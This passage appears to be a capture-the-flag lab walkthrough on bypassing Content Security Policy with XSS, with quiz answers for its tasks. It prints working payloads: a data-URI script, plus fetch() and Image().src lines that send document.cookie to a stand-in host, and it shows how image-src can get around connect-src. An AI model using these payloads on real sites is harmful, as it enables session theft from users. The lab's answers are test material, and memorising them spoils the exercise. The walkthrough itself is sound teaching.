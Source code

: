 ```html
<script src="data:application/javascript,alert(1)"></script>
```

**Exfiltration**

To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as [Beeceptor](https://beeceptor.com/) to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running

`python -m SimpleHTTPServer` or `python3 -m http.server`.

If the website you're exploiting allows AJAX requests (via `connect-src`) to anywhere, you can create a fetch request to your server like so:

```html
<script>fetch(`http://example.com/${document.cookie}`)</script>
```

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:

![](https://i.imgur.com/edr8tNa.png)

If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the connect-src policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.

For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:

```html
<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>
```

1. If Ajax/XHR requests are blocked, can we still exfiltrate sensitive information? (Yes / No)

`Yes`

## Task 6 CSP Sandbox

Time to put your practice to test! I've created a VM that is intentionally vulnerable to XSS but uses various content security policies to mitigate it. You should be able to test what you've learned so far. It consists of 10 challenges, 7 of which are **attack** and 3 are **defend**, and also a playground where you can test your own CSP configurations.

You can access the introduction at http://MACHINE_IP/.

1. I have deployed the CSP Sandbox machine.

`No answer needed`

## Task 7 CSP Sandbox :: Attack challenges
